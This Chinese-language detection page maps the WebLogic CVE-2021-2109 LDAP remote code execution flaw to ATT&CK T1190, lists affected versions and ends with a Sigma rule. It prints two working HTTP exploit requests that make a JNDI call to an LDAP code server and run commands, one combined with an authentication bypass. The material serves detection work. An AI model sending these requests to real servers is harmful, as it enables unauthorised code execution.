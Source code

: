 # T1190-CVE-2021-2109_Weblogic_LDAP_远程代码执行漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

### 0x1 影响版本

```yml
WebLogic Server 10.3.6.0.0

WebLogic Server 12.1.3.0.0

WebLogic Server 12.2.1.3.0

WebLogic Server 12.2.1.4.0

WebLogic Server 14.1.1.0.0
```

### 0x2 漏洞详情

可参考：

Weblogic LDAP 远程代码执行漏洞 CVE-2021-210：<https://blog.csdn.net/m0_46257936/article/details/112984836>

【漏洞复现系列】超详细复现过程_CVE-2021-2109_Weblogic Server远程代码执行漏洞复现_JDK版本对比：<https://www.cnblogs.com/huaflwr/p/14317388.html>

## 检测日志

HTTP.log，主要是基于POC报文进行检测，POC如下：

```yml
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.122;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.122.9:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
cmd:whoami
Cookie:  ADMINCONSOLESESSION=8xUkHS93pNBdw9iRlb1XOoH5Iy5qm65NmKad54eCEtDI2PErEIXy!-181493417
Connection: close


配合未授权访问后台

POST /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.122;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.122.9:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
cmd:pwd
Cookie:  ADMINCONSOLESESSION=8xUkHS93pNBdw9iRlb1XOoH5Iy5qm65NmKad54eCEtDI2PErEIXy!-181493417
Connection: close
```

## 测试复现

可参考漏洞详情部分

## 检测规则/思路

### sigma规则

```yml
title: Oracle WebLogic CVE-2021-2109 HTTP协议远程代码执行漏洞检测
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://blog.csdn.net/m0_46257936/article/details/112984836
    - https://www.cnblogs.com/Yang34/archive/2004/01/13/14327495.html
logsource:
    category: webserver #日志源：webserver
detection:
    selection:
        cs-method: 'GET' #请求方法为GET
        c-uri|contains|all: #请求url中包含以下任意内容
            - 'com.bea.console.handles.JndiBindingHandle'
            - 'ldap://'
            - 'AdminServer'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: #误报情况 未知
    - Unknown
level: critical
tags:
    - attack.t1190
    - attack.initial_access
    - cve.2021-2109
```

### 建议

建议使用HTTP流量+安全设备(天眼)进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

<https://blog.csdn.net/m0_46257936/article/details/112984836>

【漏洞复现系列】超详细复现过程_CVE-2021-2109_Weblogic Server远程代码执行漏洞复现_JDK版本对比

<https://www.cnblogs.com/huaflwr/p/14317388.html>

CVE-2021-2109 Weblogic Server远程代码执行

<https://www.cnblogs.com/Yang34/archive/2004/01/13/14327495.html>
